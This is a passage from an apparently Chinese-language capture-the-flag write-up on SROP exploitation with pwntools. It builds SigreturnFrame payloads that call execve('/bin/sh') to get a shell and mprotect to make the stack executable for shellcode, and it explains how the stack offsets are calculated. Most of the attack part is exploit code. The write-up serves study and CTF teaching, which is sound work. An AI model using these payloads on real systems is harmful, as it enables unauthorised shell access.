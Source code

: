 (3) 设置第二次的 SigreturnFrame 攻击：

```
#注释头
 
frame_execve = SigreturnFrame()
#设置execve的SROP帧，注意计算/bin/sh\x00所在地址
frame_execve.rax = constants.SYS_execve
frame_execve.rdi = stack_addr+0x108
frame_execve.rip = syscall_addr

```

这里的 0x108 是计算出来的，需要计算从 stack_addr 到 rdi，也就是 binsh 字符串的距离。由于传进去的是结构体，大小为 0xf8。前一个例子中 binsh 字符串是放在 str(frameExecve) 之前，所以没有那么大。这里却是放在 str(frame_execve) 之后，所以从 stack_addr 为起始，start_addr，syscall_addr，frame_execve)，总共为 0xf8+0x08*2=0x108，这里不太懂可以调试一下看看。也就是再一次 start_addr 读取字符串 binsh 的位置。

8. 发送 payload，读取 binsh 字符串，getshell：

```
#注释头
 
payload2 = ""
payload2 += p64(start_addr)          #处在stack_addr处，读取payload[8:8+15]，设置rax=0xf0
payload2 += p64(syscall_addr)        #处在stack_addr+0x08,利用rax=0xf0,调用SROP
payload2 += str(frame_execve)        #处在stack_addr+0x10
payload2 += "/bin/sh\x00"            #处在stack+0x108处
io.send(payload2)
sleep(3)
io.send(payload2[8:8+15])
sleep(3)
io.interactive()

```

9. 尝试使用 mprotect 为栈内存添加可执行权限 x，从而 shellcode 来 getshell。

(1) 第一段的劫持栈和读取 payload2 进入劫持栈处都是一样的

```
#注释头
 
frame_read = SigreturnFrame()            #设置read的SROP帧
frame_read.rax = constants.SYS_read
frame_read.rdi = 0
frame_read.rsi = stack_addr
frame_read.rdx = 0x300
frame_read.rsp = stack_addr
#读取payload2，这个stack_addr地址中的内容就是start地址，SROP执行完后ret跳转到start
frame_read.rip = syscall_addr

```

(2) 第二段需要调用 mprotect 来修改权限：

```
#注释头
 
frame_mprotect = SigreturnFrame()
#设置mprotect的SROP帧，用mprotect修改栈内存为RWX
frame_mprotect.rax = constants.SYS_mprotect
frame_mprotect.rdi = stack_addr & 0xFFFFFFFFFFFFF000
frame_mprotect.rsi = 0x1000
frame_mprotect.rdx = constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC
#权限为R,W,X
frame_mprotect.rsp = stack_addr
#劫持栈地址rsp
frame_mprotect.rip = syscall_addr

```